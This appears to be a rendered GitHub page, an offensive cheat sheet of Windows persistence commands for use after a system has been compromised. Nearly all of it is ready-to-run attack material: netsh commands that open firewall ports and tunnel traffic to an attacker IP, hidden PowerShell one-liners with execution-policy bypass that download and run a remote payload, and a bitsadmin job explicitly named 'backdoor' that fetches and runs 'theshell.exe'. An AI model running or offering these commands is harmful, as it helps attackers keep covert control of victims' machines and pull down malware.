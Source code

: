 
<script type="text/javascript">
$(document).ready(function() {
$('div.view').hide();
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast');
return false;
});
});
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`

### Allow a program to listen through the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add allowedprogram C:\nltest.exe mltest enable`

### Open a port on the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add portopening tcp 2482 lt enable all`


### Tunnel Traffic Natively with Windows
`netsh int portproxy v4tov4 listenport=80 connecthost=[AttackerIP] connectport=80`


### Powershell Downloader
 * **Command with arguments**:
 - `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 - `powershell.exe -w hidden -nop -ep bypass -c "(new-object net.webclient).downloadfile('http://192.168.20.10/theshell.exe', 'C:\Windows\temp\theshell.exe');(net-object -com shell.application).shellexecute('C:\Windows\temp\theshell.exe')"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_.

### bitsadmin Download/Exec
Make the backdoor:
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor http://192.168.20.10/theshell.exe C:\windows\temp\theshell.exe
bitsadmin /SETMINRETRYDELAY 88000
bitsadmin /SETNOTIFYCMDLINE backdoor C:\windows\temp\theshell.exe NULL
```
